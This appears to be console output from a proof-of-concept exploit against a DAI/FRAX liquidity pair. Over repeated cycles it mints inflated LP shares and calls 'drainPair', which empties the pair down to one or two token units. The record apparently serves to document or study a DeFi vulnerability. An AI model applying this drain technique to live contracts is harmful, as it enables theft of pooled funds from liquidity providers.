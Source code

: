 ```
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 250000100000009999000, Pair TotalSupply: 250000100000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 4/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 1250000750000150000009999000, Pair TotalSupply: 1250000750000150000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 5/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 6250005000001500000200000009999000, Pair TotalSupply: 6250005000001500000200000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 6/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 31250031250012500002500000250000009999000, Pair TotalSupply: 31250031250012500002500000250000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 7/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 156250187500093750025000003750000300000009999000, Pair TotalSupply: 156250187500093750025000003750000300000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 8/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 781251093750656250218750043750005250000350000009999000, Pair TotalSupply: 781251093750656250218750043750005250000350000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 9/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 3906256250004375001750000437500070000007000000400000009999000, Pair TotalSupply: 3906256250004375001750000437500070000007000000400000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 10/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 19531285156278125013125003937500787500105000009000000450000009999000, Pair TotalSupply: 19531285156278125013125003937500787500105000009000000450000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 11/11
```